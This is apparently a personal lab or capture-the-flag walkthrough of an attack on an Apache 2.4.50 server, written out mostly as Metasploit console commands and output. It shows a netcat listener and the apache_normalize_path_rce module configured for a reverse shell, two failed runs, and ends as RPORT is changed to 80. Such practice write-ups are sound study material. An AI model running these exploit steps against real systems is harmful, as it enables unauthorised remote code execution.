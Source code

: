 
In #Metasploit we find a CVE for `Apache 2.4.50` but not 52. But let's try it.

## 2. **Weaponization


#netcat 
```BASH
nc -lvp 4444
```

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> set RHOSTS 10.129.187.231
RHOSTS => 10.129.187.231
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> set LHOST 10.10.14.130
LHOST => 10.10.14.130
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> set LPORT 4444
LPORT => 4444
```

Go exploit
## 3. **Delivery

## 4. **Exploitation

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> exploit

[-] Handler failed to bind to 10.10.14.130:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
```

I'm fucking dumb.

Stop the #netcat command.

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> exploit

[*] Started reverse TCP handler on 10.10.14.130:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[-] https://10.129.187.231:443 - No response, target seems down.
[*] Scanned 1 of 1 hosts (100% complete)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable.
[*] Exploit completed, but no session was created.
```

Go precise the `RPORT`

```BASH
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> set RPORT 80
RPORT => 80
```
